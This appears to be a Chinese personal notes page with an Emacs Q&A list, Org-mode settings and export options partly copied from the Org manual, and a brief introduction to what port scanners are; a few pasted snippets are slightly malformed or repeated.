A1:options 里面 show/hide ，关掉 toolbar，然后 options 再选择 一下 save options ，下次就再也不出来了。 A2:也可把(tool-bar-mode nil)加到.emacs中
Q:emacs的正确发音?
A:一马克思?一卖壳丝？
Q:在打开文件时如果文件名中有空格,请问我怎么输入这个空格 发表：
A:在空格前加"\"
Q:果我不小心按错了键，跑到文件头或者文件尾了，怎么能快速回到刚才光标所在的位置？
A:C-u C-@
Q:编译某行出错时，我想快速把光标定位到此行，我应该如何做？
A:可以使用C-x ' 。注意是 `，也就是F1 下面的那个，不是单引号。 实在不行，M-x next-error 也可以。
Q:怎样让emacs中复制的 东西可以在系统中使用?好象emacs不和系统使用相同的粘贴板
A1:C-y 不行吗？要不就直接在emacs中干吧。M-x shell A2： M-x gdb file xxx.c run
Q：emacs中怎样才能运行.c的程序？我只会编译.c的程序，不会运行。每次只能退出emacs，在shell下运行
A：不用退出啊、直接按C-x C-z 就会进入shell，你然后shell下运行，然后fg回来就可以了。或者你M-x shell，直接在emacs中运行也可以的。
Q：我的emacs缩进是2两个空格。怎样设置为8个呢？
A：(setq c-basic-offset 8）
Q：终端下使用Ctrl+x 2/3可以上下左右分屏，默认的是一半对一半。请问可以调整两个窗口的大小吗？
A：M-x enlarge-window （c-x ^) M-x shrink-window 你可以把他们绑定到你喜欢得键上。
Q：请问在emacs里怎么显示日期？
A：(setq display-time-day-and-date t) (display-time)
Q：请问C-s时候如何粘贴要搜的内容?
A1：移动光标到你要查找的东西上（不用粘贴）， C-s C-w A2：M-y
Q：不产生备份文件
A：(setq make-backup-files nil)
Q：请问在emacs中怎么删除从光标位置到行首？
A1：Meta - C-k A2：Ctrl-u 0 Ctrl-k
Q：我在xp中用GNU Emacs 21.3.1… 当按pagedown多次后…emacs就会失去响应…请问怎么回事?
A：因为你设置了scroll-margin
Q：写程序时经常会遇到一个很长的代码块（用'{}'包起来的） 有什么办法能把一个代码块缩起来，需要的时候再展开
A： M-x hs-minor-mode
- C-c @ ESC C-s show all
- C-c @ ESC C-h hide all
- C-c @ C-s show block
- C-c @ C-h hide block
- C-c @ C-c toggle hide/show
我重新定义了show block和hide block的键 (add-hook 'c-mode-hook 'hs-minor-mode) C-c bh show block C-c bs hide block
Q：每次都语法高亮显示：(global-font-lock-mode t) 加入你的.emacs文件。
Q：装上ecb，有个color-themes可以调整配色方案，ecb-change-layout可以改变ecb窗口布局
Q：emacs中，想复制一段文字，或复制一行，应该怎样做 我现在是先cut，（C-SPACE ….. C-w），然后在paste（C-y）一下,有没有更好的操作
A:M-w
Q:请问谁知道在编译程序的时候,怎样让光标从当前buffer自动跳到正在编译程序的buffer,然后光标一直保持在这个buffer的底部?我现在每一次编译程序后,都是C-x o,然后再C-Shift >;到最底看结果,挺麻烦的,不知道这样一个……….
A: ;; S-F9 调用 compile 并设置编译命令 ;; F9 则保存所有文件并编译(无提示) (defun du/onekey-compile () "Save buffers and start compile" (interactive) (save-some-buffers t) (switch-to-buffer-other-window "compilation" (compile compile-command) ; (other-window 1) ) (global-set-key [S-f9] '(lambda () (interactive) (switch-to-buffer-other-window "compilation" (compile) ; (other-window 1) )) (global-set-key [f9] 'du/onekey-compile)
Q:如何显示ASCII表?
A:http://www.cpqd.com.br/~vinicius/emacs/ascii.el
Q:怎样使得 emacs 里面， 选取的区域为矩形，而不是一行行全选上了？
A:Ctrl+空格建，然后把光标移到下几行 ctrl+x r k ctrl+x r y
Q：我的tab键被用来做格式化功能了，那我怎样才能键入一个真正的tab呢？
A：C-q TAB
Q：如何重新从磁盘里load当前编辑的文件？因为有时候文件可能被别人改了，所以才有这个需求
A：M-x revert-buffer
Q：一般我的emacs启动后都是去/usr/share/emacs/site-lisp下面找扩展程序 请问这个目录是否可以指定？ 因为我现在要把我的emacs搬家到另一个没有root权限的机器 所以我不能去改他们的/usr/share/emacs/site-lisp，只能在自己的目录干活
A： 在.emacs最前头加一条(setq load-path (cons "home/bleem1998.emacs-site-lisp/" load-path)) 然后把所有的扩展包都丢在"home/bleem1998.emacs-site-lisp/"就可以了
Q：请问在emacs中如何设置字体和背景的颜色？
A：设置背景颜色 M-x set-background-color 可以写到 .emacs里打开emacs就设置： (set-face-background 'default "azure") ; azure或者别的颜色 如果只想在window模式下设置背景，终端下不需要，就加上判断： (if window-system (set-face-background 'default "azure"))
Q：文本方式下，emacs的有些热键被终端的热键代替了。比如：ctrl-h在终端中是退格键，而emacs中是在线帮助，结果在emacs中按ctrl-h就变成了删除光标前面的字符。这种情况还很多。要怎样设置才能用emacs的热键替代终端的……….
A： (global-set-key "\C-h" 'backward-delete-char-untabify) (global-set-key [DEL] 'delete-char)
Q：我用emacs，屏幕显示大约是80行，25列，开多个窗格时，每个窗格显示不了多少字符。 能不能让屏幕显示更多的行和列？
A：不是很清楚你的意思。是emacs窗口不够大？还是emacs编辑时自动换行的列太小？ 如果是后者 (setq default-fill-column 85) 如果是前者，可以在开emacs时选择大点的尺寸，或者动动鼠标拉大点 -_- (if window-system (setq default-frame-alist (append '((top . 0) (left . 0) (width . 120) (height . 60)) default-frame-alist)))
Q：fcitx的热建 Ctrol－Space 和 emacs 的 mark-set 重了， 我每次在 emacs里面输入中文，就不能mark-set了，怎么办啊？
A：Mark可以用 C-@
Q：怎样把所有的/r/n都替换成/n，或者怎样删除所有的/r
A：除了使用一些工具软件（如 dos2unix、tr 等）对文件直接进行转换外，在 Emacs 中有如下两种方法：
3 orgmode orgmode
3.1 开胃菜
3.1.1 music
#<bgsound src="d:/自用/0/Music/1.mp3" loop=5>
这是一个很奇葩的功能，当你使用这句语法的时候，输出html，会自动播放你指定的音乐…… “loop”表示循环次数。
3.1.2 包含文件
, #+INCLUDE: "~/.emacs" src emacs-lisp
可选的第二个第三个参数是组织方式（例如，“quote”，“example”，或者“src”），如果是 “src”，语言用来格式化内容。组织方式是可选的，如果不给出，文本会被当作 Org 模式的正常处理。用 C-c , 访问包含的文件。
3.1.3 图片
说明：emacs似乎已经集成了iimage-mode
如果你希望为图片定义一个标题，或者一个标签方便内部交叉引用，可以让图片单独一行
#+CAPTION: This is the caption for the next figure link (or table) #+LABEL: fig:SED-HR4049 [[./img/a.jpg]]
- 让 Emacs Org 直接显示图片的 iimage 模式
在 Emacs 里用 Org mode 来编辑，如果链接一张图片，只能显示图片的链接地址，并不能真正显示一张图片。 如果用 iimage 这个 minor mode，则可以使 Emacs 在编辑区里显示图片。下载 iimage.el 文件扔到 Emacs 的目录里，然后在 .emacs 里添加下面的代码：
;; iimage mode (autoload 'iimage-mode "iimage" "Support Inline image minor mode." t) (autoload 'turn-on-iimage-mode "iimage" "Turn on Inline image minor mode." t)
然后就可以用命令
M-x iimage-mode RET
在当前模式里启动 iimage 这个 minor mode。 如果想在 Emacs org 模式里启用 iimage 模式，把下面的代码放到配置文件里，则可以在 Emacs Org 的编辑区里显示图片。
(defun org-toggle-iimage-in-org () "display images in your org file" (interactive) (if (face-underline-p 'org-link) (set-face-underline-p 'org-link nil) (set-face-underline-p 'org-link t)) (iimage-mode))
以后要写图文并茂的笔记就方便多了，不用发布后再浏览图片在文章里的效果了。 可以用 M-x org-toggle-iimage-in-org 或 M-x iimage-mode 命令来激活 iimage 模式，类似以下这些链接形式会直接显示为图片：
 `'
foo.gif
‹foo.png›
`foo.JPG'
`'
foo.gif
‹foo.png›
`foo.JPG'
3.1.4 公式
对于需要包含数学符号和特殊方程的科学笔记，Org 模式支持嵌入 LaTeX 代码到文件中。你可以直接使用类 TeX 的宏来输入特殊符号，输入方程，或者整个 LaTeX 环境。
,Angles are written as Greek letters \alpha, \beta and \gamma. The mass if
,the sun is M_sun = 1.989 x 10^30 kg. The radius of the sun is R_{sun} =
,6.96 x 10^8 m. If $a^2=b$ and $b=2$, then the solution must be either
,$a=+\sqrt{2}$ or $a=-\sqrt{2}$.
,\begin{equation}
,x=\sqrt{b}
,\end{equation}
特殊设置之后，导出 HTML 时 LaTeX 代码片断会生成图片并包含进来。
行内公式 \(a^2 + b^2 = c^2\)
\begin{equation} x=\sqrt{b} \end{equation}If \(a^2=b\) and \( b=2 \), then the solution must be either $$ a=+\sqrt{2} $$ or \[ a=-\sqrt{2} \].
3.1.5 链接
关于链接 C-c C-l 编辑链接 C-c C-o 打开链接 链接的格式
[[link][description]] 或者 [[link]]
常用link类型 http://www.sina.com Web paper/lastdoc.pdf 本地文档，用相对路径表示 file:///path/to/filename 本地文档，用绝对路径表示 comp.emacs 新闻组 caole82@gmail.com 邮件地址
关于自定义css
#+STYLE: <link rel="emacs" type="/home/mudan/Documents/org/css" href="emacs.css" /> 自定义css
#test{font-size:14px;} 设置字体大小 下面贴一下我的自定义css：
#+STYLE: <link rel="stylesheet" type="text/css" href="C:/Documents and Settings/Mu/My Documents/worg.css" /> #+INFOJS_OPT: view:info mouse:underline up:think_world.html home:http://www.orgmode.org toc:t
我有几个挺好的css文件，打包了一下，可以在链接中下载：http://pan.baidu.com/share/link?shareid=151940&uk=1963878638
3.1.6 段落
段落、分行和引用
段落之间至少要有一空行。如果你想实现段内分行，可以在行后加上“\\”。
要想在一个区域内实现分行，而其他地方使用正常格式，你可以使用下面的语法实行：
#+BEGIN_VERSE Great clouds overhead Tiny black birds rise and fall Snow covers Emacs -- AlexSchroeder #+END_VERSE
3.1.7 排版源码
...
例如：
1: int main(void) 2: { 3: printf("Hello, World!\n"); 4: return 0; 5: }
语法详解： -n 显示行号 -t 清除格式 -h 7 设置高度为 7 行 -w 40 设置宽度为 40 列
3.2 Summary of in-buffer settings
Org mode uses special lines in the buffer to define settings on a per-file basis. These lines start with a ‘#+’ followed by a keyword, a colon, and then individual words defining a setting. Several setting words can be in the same line, but you can also have multiple lines for the keyword. While these settings are described throughout the manual, here is a summary. After changing any of those lines in the buffer, press C-c C-c with the cursor still in the line to activate the changes immediately. Otherwise they become effective only when the file is visited again in a new Emacs session.
#+ARCHIVE: %s_done::
This line sets the archive location for the agenda file. It applies for all subsequent lines until the next ‘#+ARCHIVE’ line, or the end of the file. The first such line also applies to any entries before it. The corresponding variable is org-archive-location.
#+CATEGORY:
This line sets the category for the agenda file. The category applies for all subsequent lines until the next ‘#+CATEGORY’ line, or the end of the file. The first such line also applies to any entries before it.
#+COLUMNS: %25ITEM .....
Set the default format for columns view. This format applies when columns view is invoked in locations where no COLUMNS property applies.
#+CONSTANTS: name1=value1 ...
Set file-local values for constants to be used in table formulas. This line sets the local variable org-table-formula-constants-local. The global version of this variable is org-table-formula-constants.
#+FILETAGS: :tag1:tag2:tag3:
Set tags that can be inherited by any entry in the file, including the top-level entries.
#+DRAWERS: NAME1 .....
Set the file-local set of additional drawers. The corresponding global variable is org-drawers.
#+LINK: linkword replace
These lines (several are allowed) specify link abbreviations. See Link abbreviations. The corresponding variable is org-link-abbrev-alist.
#+PRIORITIES: highest lowest default
This line sets the limits and the default for the priorities. All three must be either letters A–Z or numbers 0–9. The highest priority must have a lower ASCII number than the lowest priority.
#+PROPERTY: Property_Name Value
This line sets a default inheritance value for entries in the current buffer, most useful for specifying the allowed values of a property.
#+SETUPFILE: file
This line defines a file that holds more in-buffer setup. Normally this is entirely ignored. Only when the buffer is parsed for option-setting lines (i.e., when starting Org mode for a file, when pressing C-c C-c in a settings line, or when exporting), then the contents of this file are parsed as if they had been included in the buffer. In particular, the file can be any other Org mode file with internal setup. You can visit the file the cursor is in the line with C-c '.
#+STARTUP:
This line sets options to be used at startup of Org mode, when an Org file is being visited. The first set of options deals with the initial visibility of the outline tree. The corresponding variable for global default settings is org-startup-folded, with a default value t, which means overview.
| overview | top-level headlines only |
| content | all headlines |
| showall | no folding of any entries |
| showeverything | show even drawer contents |
Dynamic virtual indentation is controlled by the variable org-startup-indented1
| indent | start with org-indent-mode turned on |
| noindent | start with org-indent-mode turned off |
Then there are options for aligning tables upon visiting a file. This is useful in files containing narrowed table columns. The corresponding variable is org-startup-align-all-tables, with a default value nil.
| align | align all tables |
| noalign | don't align tables on startup |
When visiting a file, inline images can be automatically displayed. The corresponding variable is org-startup-with-inline-images, with a default value nil to avoid delays when visiting a file.
| inlineimages | show inline images |
| noinlineimages | don't show inline images on startup |
Logging the closing and reopening of TODO items and clock intervals can be configured using these options (see variables org-log-done, org-log-note-clock-out and org-log-repeat)
| logdone | record a timestamp when an item is marked DONE |
| lognotedone | record timestamp and a note when DONE |
| nologdone | don't record when items are marked DONE |
| logrepeat | record a time when reinstating a repeating item |
| lognoterepeat | record a note when reinstating a repeating item |
| nologrepeat | do not record when reinstating repeating item |
| lognoteclock-out | record a note when clocking out |
| nolognoteclock-out | don't record a note when clocking out |
| logreschedule | record a timestamp when scheduling time changes |
| lognotereschedule | record a note when scheduling time changes |
| nologreschedule | do not record when a scheduling date changes |
| logredeadline | record a timestamp when deadline changes |
| lognoteredeadline | record a note when deadline changes |
| nologredeadline | do not record when a deadline date changes |
| logrefile | record a timestamp when refiling |
| lognoterefile | record a note when refiling |
| nologrefile | do not record when refiling |
Here are the options for hiding leading stars in outline headings, and for indenting outlines. The corresponding variables are org-hide-leading-stars and org-odd-levels-only, both with a default setting nil (meaning showstars and oddeven).
| hidestars | make all but one of the stars starting a headline invisible. |
| showstars | show all stars starting a headline |
| indent | virtual indentation according to outline level |
| noindent | no virtual indentation according to outline level |
| odd | allow only odd outline levels (1,3,…) |
| oddeven | allow all outline levels |
To turn on custom format overlays over timestamps (variables org-put-time-stamp-overlays and org-time-stamp-overlay-formats), use
| customtime | overlay custom time format |
The following options influence the table spreadsheet (variable constants-unit-system).
| constcgs | constants.el should use the c-g-s unit system |
| constSI | constants.el should use the SI unit system |
To influence footnote settings, use the following keywords. The corresponding variables are org-footnote-define-inline, org-footnote-auto-label, and org-footnote-auto-adjust.
| fninline | define footnotes inline |
| fnnoinline | define footnotes in separate section |
| fnlocal | define footnotes near first reference, but not inline |
| fnprompt | prompt for footnote labels |
| fnauto | create 1-like labels automatically (default) |
| fnconfirm | offer automatic label for editing or confirmation |
| fnplain | create 2-like labels automatically |
| fnadjust | automatically renumber and sort footnotes |
| nofnadjust | do not renumber and sort automatically |
To hide blocks on startup, use these keywords. The corresponding variable is org-hide-block-startup.
| hideblocks | Hide all begin/end blocks on startup |
| nohideblocks | Do not hide blocks on startup |
The display of entities as UTF-8 characters is governed by the variable org-pretty-entities and the keywords
| entitiespretty | Show entities as UTF-8 characters where possible |
| entitiesplain | Leave entities plain |
#+TAGS: TAG1(c1) TAG2(c2)
These lines (several such lines are allowed) specify the valid tags in this file, and (potentially) the corresponding fast tag selection keys. The corresponding variable is org-tag-alist.
#+TBLFM:
This line contains the formulas for the table directly above the line.
#+TITLE:, #+AUTHOR:, #+EMAIL:, #+LANGUAGE:, #+TEXT:, #+DATE:,
#+OPTIONS:, #+BIND:, #+XSLT:, #+DESCRIPTION:, #+KEYWORDS:, #+LaTeX_HEADER:, #+STYLE:, #+LINK_UP:, #+LINK_HOME:, #+EXPORT_SELECT_TAGS:, #+EXPORT_EXCLUDE_TAGS:
These lines provide settings for exporting files. For more details see Export options.
#+TODO: #+SEQ_TODO: #+TYP_TODO:
These lines set the TODO keywords and their interpretation in the current file. The corresponding variable is org-todo-keywords.
3.3 Export options
The exporter recognizes special lines in the buffer which provide additional information. These lines may be put anywhere in the file. The whole set of lines can be inserted into the buffer with C-c C-e t. For individual lines, a good way to make sure the keyword is correct is to type ‘#+’ and then use M-<TAB> completion (see Completion). For a summary of other in-buffer settings not specifically related to export, see In-buffer settings. In particular, note that you can place commonly-used (export) options in a separate file which can be included using #+SETUPFILE.
C-c C-e t (org-insert-export-options-template)
Insert template with export options, see example below.
| #+TITLE: | the title to be shown (default is the buffer name) |
| #+AUTHOR: | the author (default taken from user-full-name) |
| #+DATE: | a date, an Org timestamp3, or a format string for format-time-string |
| #+EMAIL: | his/her email address (default from user-mail-address) |
| #+DESCRIPTION: | the page description, e.g., for the XHTML meta tag |
| #+KEYWORDS: | the page keywords, e.g., for the XHTML meta tag |
| #+LANGUAGE: | language for HTML, e.g., ‘en’ (org-export-default-language) |
| #+TEXT: | Some descriptive text to be inserted at the beginning. |
| #+TEXT: | Several lines may be given. |
| #+BIND: | lisp-var lisp-val, e.g., org-export-latex-low-levels itemize |
| You need to confirm using these, or configure org-export-allow-BIND | |
| #+LINKUP: | the ``up'' link of an exported page |
| #+LINKHOME: | the ``home'' link of an exported page |
| #+LaTeXHEADER: | extra line(s) for the LaTeX header, like \usepackage{xyz} |
| #+EXPORTSELECTTAGS: | Tags that select a tree for export |
| #+EXPORTEXCLUDETAGS: | Tags that exclude a tree from export |
| #+XSLT: | the XSLT stylesheet used by DocBook exporter to generate FO file |
#+OPTIONS: H:2 num:t toc:t \n:nil @:t ::t |:t ^:t f:t TeX:t ...
The #+OPTIONS line is a compact4 form to specify export settings. Here you can:
H: set the number of headline levels for export
num: turn on/off section-numbers
toc: turn on/off table of contents, or set level limit (integer)
\n: turn on/off line-break-preservation (DOES NOT WORK)
@: turn on/off quoted HTML tags
:: turn on/off fixed-width sections
|: turn on/off tables
^: turn on/off TeX-like syntax for sub- and superscripts. If
you write "^:{}", a_{b} will be interpreted, but
the simple a_b will be left as it is.
-: turn on/off conversion of special strings.
f: turn on/off footnotes like this[1].
todo: turn on/off inclusion of TODO keywords into exported text
tasks: turn on/off inclusion of tasks (TODO items), can be nil to remove
all tasks, todo to remove DONE tasks, or list of kwds to keep
pri: turn on/off priority cookies
tags: turn on/off inclusion of tags, may also be not-in-toc
<: turn on/off inclusion of any time/date stamps like DEADLINES
*: turn on/off emphasized text (bold, italic, underlined)
TeX: turn on/off simple TeX macros in plain text
LaTeX: configure export of LaTeX fragments. Default auto
skip: turn on/off skipping the text before the first heading
author: turn on/off inclusion of author name/email into exported file
email: turn on/off inclusion of author email into exported file
creator: turn on/off inclusion of creator info into exported file
timestamp: turn on/off inclusion creation time into exported file
d: turn on/off inclusion of drawers, or list drawers to include
These options take effect in both the HTML and LaTeX export, except for TeX and LaTeX options, which are respectively t and nil for the LaTeX export.
The default values for these and many other options are given by a set of variables. For a list of such variables, the corresponding OPTIONS keys and also the publishing keys (see Project alist), see the constant org-export-plist-vars.
When exporting only a single subtree by selecting it with C-c @ before calling an export command, the subtree can overrule some of the file's export settings with properties EXPORTFILENAME, EXPORTTITLE, EXPORTTEXT, EXPORTAUTHOR, EXPORTDATE, and EXPORTOPTIONS.
3.4 12.3 Export settings
Export options can be set: globally with variables; for an individual file by making variables buffer-local with in-buffer settings (see In-buffer settings), by setting individual keywords, or by specifying them in a compact form with the #+OPTIONS keyword; or for a tree by setting properties (see Properties and Columns). Options set at a specific level override options set at a more general level.
In-buffer settings may appear anywhere in the file, either directly or indirectly through a file included using ‘#+SETUPFILE: filename’ syntax. Option keyword sets tailored to a particular back-end can be inserted from the export dispatcher (see The Export Dispatcher) using the Insert template command by pressing <#>. To insert keywords individually, a good way to make sure the keyword is correct is to type #+ and then to use M-<TAB> for completion.
The export keywords available for every back-end, and their equivalent global variables, include:
‘AUTHOR’ The document author (user-full-name). ‘CREATOR’ Entity responsible for output generation (org-export-creator-string). ‘DATE’ A date or a time-stamp5. ‘DESCRIPTION’ The document description. Back-ends handle it as they see fit (e.g., for the XHTML meta tag), if at all. You can use several such keywords for long descriptions. ‘EMAIL’ The email address (user-mail-address). ‘KEYWORDS’ The keywords defining the contents of the document. Back-ends handle it as they see fit (e.g., for the XHTML meta tag), if at all. You can use several such keywords if the list is long. ‘LANGUAGE’ The language used for translating some strings (org-export-default-language). E.g., ‘#+LANGUAGE: fr’ will tell Org to translate File (english) into Fichier (french) in the clocktable. ‘SELECTTAGS’ The tags that select a tree for export (org-export-select-tags). The default value is :export:. Within a subtree tagged with :export:, you can still exclude entries with :noexport: (see below). When headlines are selectively exported with :export: anywhere in a file, text before the first headline is ignored. ‘EXCLUDETAGS’ The tags that exclude a tree from export (org-export-exclude-tags). The default value is :noexport:. Entries with the :noexport: tag will be unconditionally excluded from the export, even if they have an :export: tag. ‘TITLE’ The title to be shown (otherwise derived from buffer's name). You can use several such keywords for long titles.
The #+OPTIONS keyword is a compact6 form that recognizes the following arguments:
': Toggle smart quotes (org-export-with-smart-quotes). *: Toggle emphasized text (org-export-with-emphasize). -: Toggle conversion of special strings (org-export-with-special-strings). :: Toggle fixed-width sections (org-export-with-fixed-width). <: Toggle inclusion of any time/date active/inactive stamps (org-export-with-timestamps).
Toggle line-break-preservation (org-export-preserve-breaks). ^: Toggle TeX-like syntax for sub- and superscripts. If you write "^:{}", ‘ab’ will be interpreted, but the simple ‘ab’ will be left as it is (org-export-with-sub-superscripts). arch: Configure export of archived trees. Can be set to headline to only process the headline, skipping its contents (org-export-with-archived-trees). author: Toggle inclusion of author name into exported file (org-export-with-author). c: Toggle inclusion of CLOCK keywords (org-export-with-clocks). creator: Configure inclusion of creator info into exported file. It may be set to comment (org-export-with-creator). d: Toggle inclusion of drawers, or list drawers to include (org-export-with-drawers). e: Toggle inclusion of entities (org-export-with-entities). email: Toggle inclusion of the author's e-mail into exported file (org-export-with-email). f: Toggle the inclusion of footnotes (org-export-with-footnotes). H: Set the number of headline levels for export (org-export-headline-levels). Below that level, headlines are treated differently. In most back-ends, they become list items. inline: Toggle inclusion of inlinetasks (org-export-with-inlinetasks). num: Toggle section-numbers (org-export-with-section-numbers). It can also be set to a number ‘n’, so only headlines at that level or above will be numbered. p: Toggle export of planning information (org-export-with-planning). “Planning information” is the line containing the SCHEDULED:, the DEADLINE: or the CLOSED: cookies or a combination of them. pri: Toggle inclusion of priority cookies (org-export-with-priority). stat: Toggle inclusion of statistics cookies (org-export-with-statistics-cookies). tags: Toggle inclusion of tags, may also be not-in-toc (org-export-with-tags). tasks: Toggle inclusion of tasks (TODO items), can be nil to remove all tasks, todo to remove DONE tasks, or a list of keywords to keep (org-export-with-tasks). tex: Configure export of LaTeX fragments and environments. It may be set to verbatim (org-export-with-latex). timestamp: Toggle inclusion of the creation time into exported file (org-export-time-stamp-file). toc: Toggle inclusion of the table of contents, or set the level limit (org-export-with-toc). todo: Toggle inclusion of TODO keywords into exported text (org-export-with-todo-keywords).
Toggle inclusion of tables (org-export-with-tables).
When exporting only a subtree, each of the previous keywords7 can be overridden locally by special node properties. These begin with ‘EXPORT’, followed by the name of the keyword they supplant. For example, ‘DATE’ and ‘OPTIONS’ keywords become, respectively, ‘EXPORTDATE’ and ‘EXPORTOPTIONS’ properties. Subtree export also supports the self-explicit ‘EXPORTFILENAME’ property8.
If org-export-allow-bind-keywords is non-nil, Emacs variables can become buffer-local during export by using the BIND keyword. Its syntax is ‘#+BIND: variable value’. This is particularly useful for in-buffer settings that cannot be changed using specific keywords.
3.5 Images in HTML export
HTML export can inline images given as links in the Org file, and it can make an image the clickable part of a link. By default9, images are inlined if a link does not have a description. So ‘ ’ will be inlined, while ‘the image’ will just produce a link ‘the image’ that points to the image. If the description part itself is a file: link or a http: URL pointing to an image, this image will be inlined and activated so that clicking on the image will activate the link. For example, to include a thumbnail that will link to a high resolution version of the image, you could use:
’ will be inlined, while ‘the image’ will just produce a link ‘the image’ that points to the image. If the description part itself is a file: link or a http: URL pointing to an image, this image will be inlined and activated so that clicking on the image will activate the link. For example, to include a thumbnail that will link to a high resolution version of the image, you could use:
 If you need to add attributes to an inlined image, use a #+ATTRHTML. In the example below we specify the alt and title attributes to support text viewers and accessibility, and align it to the right.
If you need to add attributes to an inlined image, use a #+ATTRHTML. In the example below we specify the alt and title attributes to support text viewers and accessibility, and align it to the right.
 You could use http addresses just as well.
You could use http addresses just as well.
3.6 Math formatting in HTML export
LaTeX math snippets (see LaTeX fragments) can be displayed in two different ways on HTML pages. The default is to use the MathJax system which should work out of the box with Org mode installation because http://orgmode.org serves MathJax for Org mode users for small applications and for testing purposes. If you plan to use this regularly or on pages with significant page views, you should install10 MathJax on your own server in order to limit the load of our server. To configure MathJax, use the variable org-html-mathjax-options or insert something like the following into the buffer:
#+HTML_MATHJAX: align:"left" mathml:t path:"/MathJax/MathJax.js"
See the docstring of the variable org-html-mathjax-options for the meaning of the parameters in this line.
If you prefer, you can also request that LaTeX fragments are processed into small images that will be inserted into the browser page. Before the availability of MathJax, this was the default method for Org files. This method requires that the dvipng program or imagemagick suite is available on your system. You can still get this processing with
#+OPTIONS: tex:dvipng
or:
#+OPTIONS: tex:imagemagick
3.7 LaTeX fragments
Going beyond symbols and sub- and superscripts, a full formula language is needed. Org mode can contain LaTeX math fragments, and it supports ways to process these for several export back-ends. When exporting to LaTeX, the code is obviously left as it is. When exporting to HTML, Org invokes the MathJax library (see Math formatting in HTML export) to process and display the math11. Finally, it can also process the mathematical expressions into images12 that can be displayed in a browser.
LaTeX fragments don't need any special marking at all. The following snippets will be identified as LaTeX source code:
- Environments of any kind13. The only requirement is that the \begin and \end statements appear on a new line, at the beginning of the line or after whitespaces only.
- Text within the usual LaTeX math delimiters. To avoid conflicts with currency specifications, single ‘$’ characters are only recognized as math delimiters if the enclosed text contains at most two line breaks, is directly attached to the ‘$’ characters with no whitespace in between, and if the closing ‘$’ is followed by whitespace, punctuation or a dash. For the other delimiters, there is no such restriction, so when in doubt, use ‘\(...\)’ as inline math delimiters.
For example:
\begin{equation}
x=\sqrt{b}
\end{equation}
If $a^2=b$ and \( b=2 \), then the solution must be
either $$ a=+\sqrt{2} $$ or \[ a=-\sqrt{2} \].
LaTeX processing can be configured with the variable org-export-with-latex. The default setting is t which means MathJax for HTML, and no processing for ASCII and LaTeX back-ends. You can also set this variable on a per-file basis using one of these lines:
#+OPTIONS: tex:t Do the right thing automatically (MathJax) #+OPTIONS: tex:nil Do not process LaTeX fragments at all #+OPTIONS: tex:verbatim Verbatim export, for jsMath or so
3.8 CSS support
You can modify the CSS style definitions for the exported file. The HTML exporter assigns the following special CSS classes14 to appropriate parts of the document—your style specifications may change these, in addition to any of the standard classes like for headlines, tables, etc.
p.author author information, including email p.date publishing date p.creator creator info, about org mode version .title document title .todo TODO keywords, all not-done states .done the DONE keywords, all states that count as done .WAITING each TODO keyword also uses a class named after itself .timestamp timestamp .timestamp-kwd keyword associated with a timestamp, like SCHEDULED .timestamp-wrapper span around keyword plus timestamp .tag tag in a headline .HOME each tag uses itself as a class, "@" replaced by "_" .target target for links .linenr the line number in a code example .code-highlighted for highlighting referenced code lines div.outline-N div for outline level N (headline plus text)) div.outline-text-N extra div for text at outline level N .section-number-N section number in headlines, different for each level .figure-number label like "Figure 1:" .table-number label like "Table 1:" .listing-number label like "Listing 1:" div.figure how to format an inlined image pre.src formatted source code pre.example normal example p.verse verse paragraph div.footnotes footnote section headline p.footnote footnote definition paragraph, containing a footnote .footref a footnote reference number (always a <sup>) .footnum footnote number in footnote definition (always <sup>) Each exported file contains a compact default style that defines these classes in a basic way15. You may overwrite these settings, or add to them by using the variables org-html-head and org-html-head-extra. You can override the global values of these variables for each file by using these keywords:
For longer style definitions, you can use several such lines. You could also directly write a <style> </style> section in this way, without referring to an external file.
In order to add styles to a subtree, use the :HTMLCONTAINERCLASS: property to assign a class to the tree. In order to specify CSS styles for a particular headline, you can use the id specified in a :CUSTOMID: property.
3.9 Extended use of TODO keywords
3.9.1 Setting up keywords for individual files
It can be very useful to use different aspects of the TODO mechanism in different files. For file-local settings, you need to add special lines to the file which set the keywords and interpretation for that file only. For example, to set one of the two examples discussed above, you need one of the following lines, starting in column zero anywhere in the file:
#+TODO: TODO FEEDBACK VERIFY | DONE CANCELED
(you may also write #+SEQTODO to be explicit about the interpretation, but it means the same as #+TODO), or
#+TYP_TODO: Fred Sara Lucy Mike | DONE
A setup for using several sets in parallel would be:
#+TODO: TODO | DONE #+TODO: REPORT BUG KNOWNCAUSE | FIXED #+TODO: | CANCELED
To make sure you are using the correct keyword, type ‘#+’ into the buffer and then use M-<TAB> completion.
Remember that the keywords after the vertical bar (or the last keyword if no bar is there) must always mean that the item is DONE (although you may use a different word). After changing one of these lines, use C-c C-c with the cursor still in the line to make the changes known to Org mode16.
3.9.2 TODO dependencies
The structure of Org files (hierarchy and lists) makes it easy to define TODO dependencies. Usually, a parent TODO task should not be marked DONE until all subtasks (defined as children tasks) are marked as DONE. And sometimes there is a logical sequence to a number of (sub)tasks, so that one task cannot be acted upon before all siblings above it are done. If you customize the option org-enforce-todo-dependencies, Org will block entries from changing state to DONE while they have children that are not DONE. Furthermore, if an entry has a property ORDERED, each of its children will be blocked until all earlier siblings are marked DONE. Here is an example:
- TODO Blocked until (two) is done
* DONE one * TODO two
- Parent
* TODO a * TODO b, needs to wait for (a) ** TODO c, needs to wait for (a) and (b) C-c C-x o (org-toggle-ordered-property) Toggle the ORDERED property of the current entry. A property is used for this behavior because this should be local to the current entry, not inherited like a tag. However, if you would like to track the value of this property with a tag for better visibility, customize the option org-track-ordered-property-with-tag. C-u C-u C-u C-c C-t Change TODO state, circumventing any state blocking. If you set the option org-agenda-dim-blocked-tasks, TODO entries that cannot be closed because of such dependencies will be shown in a dimmed font or even made invisible in agenda views (see Agenda Views).
You can also block changes of TODO states by looking at checkboxes (see Checkboxes). If you set the option org-enforce-todo-checkbox-dependencies, an entry that has unchecked checkboxes will be blocked from switching to DONE.
If you need more complex dependency structures, for example dependencies between entries in different trees or files, check out the contributed module org-depend.el.
4 网络安全
4.1 端口扫描
http://www.oschina.net/news/15639/5-linux-port-scanner
端口扫描器是一种检测服务器或主机虚拟端口是开启或关闭的工具。端口允许同一台计算机上的不同应用程序同时共享网络资源。连接本地局域网或互联网的计算机运行着许多不同服务，它们监听着常用或不常用的端口。端口数的范围从0到65535，0到1023的端口数最常用，它们中有许多是为FTP、SSH、HTTP、telnet、DNS和NNTP等服务保留的，1024到49151端口是注册端口，49152到65535则分配给动态或私人端口。Linux上有很多端口扫描器，帮助系统管理员识别和纠正系统漏洞。
